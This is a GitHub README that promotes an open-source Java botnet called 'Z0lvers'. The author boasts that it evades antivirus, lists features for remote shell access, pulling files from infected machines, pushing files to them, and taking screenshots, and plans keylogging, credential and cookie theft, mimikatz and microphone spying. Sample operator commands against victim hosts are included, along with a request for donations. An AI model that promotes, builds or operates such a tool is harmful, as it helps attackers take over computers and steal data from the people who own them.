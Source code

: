 # Z0lvers
name created by Sh4dow Gh0st

It is offical the botnet is open source :D

here is a list of all the options:

it supports a 1000 users, shell acces to the infected computer, information giving about the infected computer like ( external ip, hostname, operating system and administrator or not when your on windows ), keepalive check, screenshot, downloaden and uploaden.

things that are partitional completed are: selfdestruct the virus.

the backdoor isn't seen by any viruscaner ( checked on date 11/3/2017 ).
the botnet is written in java with netbeans.

things that i didn't add are Ddos or randsomeware.

options that i am working on are: vnc, webcam snapshot, a keylogger, Persistence backdoor, network scan likely with nmap, passwords and cookie grap ( also skype ), video on full screen that cant be closed, mimikatz, Distributed hash cracking, microfone spying, popup for credentials, script mining.

this are the working options:
list info : that will give you a detailed list of all the computers in the botnet and thee hostname, external ip, operating system, adn if on windows if it had administrator rights.
msgbox : this will give a msgbox on the targets computer.
download : here can you download a file from the infected computer to the server ( full path is needed )
upload : send a file to the computers tmp using a url.
shell : here can you type cmd commands to the computer ( the shell closes automatic when the command is completed ).
screenshot : here can you make a screenshot of the defauld screen from the infecteed computer ( will be sended to the servers)
javaversion : request version of java from infected computer.
exit : closes connection.

by thee options msgbox, download, upload, shell, screenshot, javaversion and exit you have to give the hostname and external ip to send to someone here some examples you can find the hostname and external ip easy with list info : 
minepc@1.2.3.4 shell dir C:\
minepc@1.2.3.4 msgbox hello
minepc@1.2.3.4 download C:\Users\mh123hack\Downloads\botnet-herder.jpg
minepc@1.2.3.4 upload http://thestartupmag.com/wp-content/uploads/2016/10/hacked.png
minepc@1.2.3.4 screenshot
minepc@1.2.3.4 javaversion
minepc@1.2.3.4 exit
list info

open the client with netbeans!

the botnet is supported for windows, linux, and maby mac but i havend tested this.
the standard port for the precompiled server ( botnet-server.jar ) is 4600 but you can change this in the source code.

I want to thank ( O shit waddup ) from hackflag for making a video tutorial for the botnet.d
https://hackflag.org/forum/member.php?action=profile&uid=5209

if you want your hacker name here donate or make the botnet famous.
retweet: https://twitter.com/martinhermens1/status/839979932541415424
if you retweet this then your name will be placed down here.

we are over 100 downloads if this botnet becomes famous and get donations than i will make updates on request.

i hope you like my botnet :D

dear regards.
mh123hack
bitcoin: 1GeJHABcDpNDRqVUNwuKgwZBLf1nYAwzmc 
litecoin: LaLRA68RC6EdUdFFxtbkgzvmTSKRyFZndk
paypal: https://www.paypal.com/cgi-bin/webscr?cmd=_s-xclick&hosted_button_id=9GJFK4K4QEDKL


DONATORS:


SHARES:

TrollForums, 
Sh4dow gh0st,
Dancing Lama
